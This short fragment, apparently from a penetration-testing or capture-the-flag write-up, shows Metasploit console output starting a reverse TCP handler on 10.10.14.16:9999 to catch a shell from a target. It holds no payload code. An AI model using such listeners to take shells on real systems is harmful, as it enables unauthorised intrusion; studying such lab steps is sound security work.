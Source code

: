 ```bash
View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.16:9999
```